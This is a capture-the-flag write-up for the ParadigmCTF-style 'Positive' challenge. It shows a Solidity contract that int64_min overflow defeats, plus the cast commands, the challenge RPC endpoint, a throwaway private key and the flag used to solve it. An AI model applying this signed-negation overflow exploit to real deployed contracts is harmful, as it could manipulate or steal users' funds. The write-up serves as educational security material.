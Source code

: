 # Positive

## Challenge

The challenge is deployed using the ParadigmCTF framework.

We get a contract for Positive.sol:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.7.6;

contract Positive{
    bool public solved;

    constructor() {
        solved = false;
    }

    function stayPositive(int64 _num) public returns(int64){
        int64 num;
        if(_num<0){
            num = -_num;
            if(num<0){
                solved = true;
            }
            return num;
        }
        num = _num;
        return num;
    }
}
```

Our goal is to get the solved variable to be true.

## Solution
For this challenge, my first approach was to test some edge cases by throwing in numbers like 1, 0, -1, int64_max, int64_min while I test-deployed the challenge in Remix. This already yielded me the wanted result, as int64_min (-9223372036854775808) passed both checks and set the variable solved to true.

I then used cast with the following commands to set solved to true:

```bash
# uuid:           eaf81f81-bc2b-4aee-8ea3-d5d04d41e1f2
# rpc endpoint:   http://146.148.125.86:60083/eaf81f81-bc2b-4aee-8ea3-d5d04d41e1f2
# private key:    0x5e9dee143c11059ebdcc65e4e949159b4f1cbb49833a0b1895aaee78a68fb3c3
# setup contract: 0x516eD898e69427192d148a45893C8328ed33E5ca

rpc="http://146.148.125.86:60083/eaf81f81-bc2b-4aee-8ea3-d5d04d41e1f2"
priv_key=0x5e9dee143c11059ebdcc65e4e949159b4f1cbb49833a0b1895aaee78a68fb3c3
setup_contract=0x516eD898e69427192d148a45893C8328ed33E5ca

# get address
cast call $setup_contract "TARGET()(address)" --rpc-url $rpc

# Save the address we received.
positive_contract=0xE07e3fA0EB898531Cc1EC5b0dcDF86932cCD865a

# Call to the function (will prompt to input the private key)
cast send --rpc-url $rpc --private-key $priv_key $positive_contract "stayPositive(int64 _num)" -- -9223372036854775808 

# Check if it was solved
cast call $setup_contract "isSolved()(bool)" --rpc-url $rpc
```

This yields us the flag crew{9o5it1v1ty1sth3k3y}.